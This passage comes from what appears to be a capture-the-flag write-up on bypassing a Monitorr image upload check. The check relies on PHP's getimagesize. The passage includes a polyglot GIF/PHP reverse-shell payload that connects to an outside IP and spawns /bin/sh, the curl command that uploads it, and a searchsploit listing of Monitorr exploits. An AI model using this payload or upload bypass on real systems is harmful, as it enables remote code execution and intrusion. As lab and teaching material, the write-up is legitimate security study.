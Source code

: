 So it uses `getimagesize` function to determine if the file is an image..

From [PHP Manual](https://www.php.net/manual/en/function.getimagesize.php):

>**Caution** This function expects filename to be a valid image file. If a non-image file is supplied, it may be incorrectly detected as an image and the function will return successfully, but the array may contain nonsensical values.
>Do not use getimagesize() to check that a given file is a valid image. Use a purpose-built solution such as the Fileinfo extension instead.

And in the [comment](https://www.php.net/manual/en/function.getimagesize.php#116976):

> Note: getimage size doesn't attempt to validate image file formats
>It is possible for malformed GIF images to contain PHP and still have valid dimensions.
>Programmers need to ensure such images are validated by other tools, or never treated as PHP or other executable types (enforcing appropriate extensions, avoiding user controlled renaming, restricting uploaded images to areas of the website where PHP is not enabled).
>http://ha.ckers.org/blog/20070604/passing-malicious-php-through-getimagesize/

Url is down, but on the [StackOverflow](https://stackoverflow.com/a/27899862):

> Ok, something like this should do the trick:
```text
GIF89a<?php
echo 'hi';
```

Let's try this payload - with the corrected syntax. Notice the GIF [Magic Number](https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number) at the beginning of the file.

```php
#pshell.gif
GIF89a<?php
$sock=fsockopen("XX.XX.XX.XXX",4445);
$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

```sh
$ curl -F "fileToUpload=@pshell.gif" -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k

<div id='uploadreturn'>File pshell.gif is an image: <br><div id='uploadok'>File pshell.gif has been uploaded to: ../data/usrimg/pshell.gif</div></div>             
```

But the file with the `*.gif` extension won't be parsed as a PHP. At this point I've tried many approaches from the [Hacktricks File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload). None of them succeeded, so I started searching for some known exploits.

```sh
$ searchsploit monitorr
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                                               | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                            | php/webapps/48980.py
------------------------------------------------------------------------------------- ---------------------------------
```
